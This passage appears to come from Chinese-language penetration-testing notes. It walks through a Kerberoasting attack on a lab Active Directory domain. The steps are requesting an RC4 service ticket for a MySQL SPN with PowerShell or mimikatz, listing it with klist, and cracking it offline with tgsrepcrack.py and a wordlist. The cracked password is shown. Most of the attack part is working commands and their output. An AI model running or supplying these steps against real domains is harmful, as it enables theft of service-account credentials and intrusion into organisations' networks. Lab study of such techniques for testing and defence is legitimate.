 发现 mysql 服务为 RC4 加密

### 步骤2：人工请求服务

```
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "mysql/16server-dc1.ack123.com"
//或者
mimikatz kerberos::ask /target:mysql/16server-dc1.ack123.com
```

在用 `klist` 查看刚请求的 mysql 票据，为 RC4 加密

<img src=".\图片\Snipaste_2023-05-19_22-05-20.png" alt="Snipaste_2023-05-19_22-05-20" style="zoom:80%;" />

### 步骤3：本地破解票据

https://github.com/nidem/kerberoast

```
#pass.txt为密码字典 根据前期信息搜集填入，实际测试可以用github里的字典 rockyou.txt
python tgsrepcrack.py password.txt "2-40a10000-administrator@mysql~16server-dc1.ack123.com-ACK123.COM.kirbi"
```

<img src=".\图片\Snipaste_2023-05-19_22-15-23.png" alt="Snipaste_2023-05-19_22-15-23" style="zoom:80%;" />

爆破密码成功：

```
P@55w0rd!
```
